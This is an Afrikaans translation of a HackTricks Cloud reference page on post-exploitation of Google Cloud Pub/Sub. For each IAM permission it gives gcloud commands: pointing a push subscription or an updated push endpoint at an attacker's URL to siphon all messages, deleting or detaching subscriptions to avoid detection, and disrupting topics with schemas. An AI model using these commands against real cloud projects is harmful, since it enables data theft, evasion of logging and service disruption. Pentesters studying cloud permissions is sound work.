 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}

## Pub/Sub

Vir meer inligting oor Pub/Sub, kyk na die volgende bladsy:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiseer 'n boodskap in 'n onderwerp, nuttig om **onverwagte data te stuur** en onverwagte funksionaliteite te aktiveer of kwesbaarhede uit te buit:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nuttig om te verhoed dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nuttig om te voorkom dat 'n intekening boodskappe ontvang, miskien om opsporing te vermy.\
Dit is moontlik om 'n onderwerp te verwyder selfs met intekeninge daaraan gekoppel.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Gebruik hierdie toestemming om 'n instelling van die onderwerp op te dateer om dit te ontwrig, soos `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Gee jouself toestemming om enige van die vorige aanvalle uit te voer.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Kry al die boodskappe in 'n webbediener:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Skep 'n intekening en gebruik dit om **boodskappe te trek**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Verwyder 'n intekening** kan nuttig wees om 'n logverwerkingsisteem of iets soortgelyks te ontwrig:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Gebruik hierdie toestemming om 'n instelling op te dateer sodat boodskappe gestoor word op 'n plek waartoe jy toegang het (URL, Big Query tabel, Emmer) of net om dit te ontwrig.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Gee jouself die regte om enige van die voorheen genoemde aanvalle uit te voer.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Heg 'n skema aan 'n onderwerp sodat die boodskappe dit nie nakom nie en dus die onderwerp ontwrig word.\
As daar geen skemas is nie, moet jy dalk een skep.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dit mag lyk asof jy 'n skema uitvee, jy boodskappe sal kan stuur wat nie aan die skema voldoen nie. Maar, aangesien die skema uitgevee sal word, sal geen boodskap eintlik binne die onderwerp ingaan nie. So dit is **NUTTELOOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Gee jouself die toestemmings wat nodig is om enige van die voorheen genoemde aanvalle uit te voer.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dit sal 'n snapshot van al die onACKed boodskappe skep en dit terug na die intekening plaas. Nie baie nuttig vir 'n aanvaller nie, maar hier is dit:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking tricks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
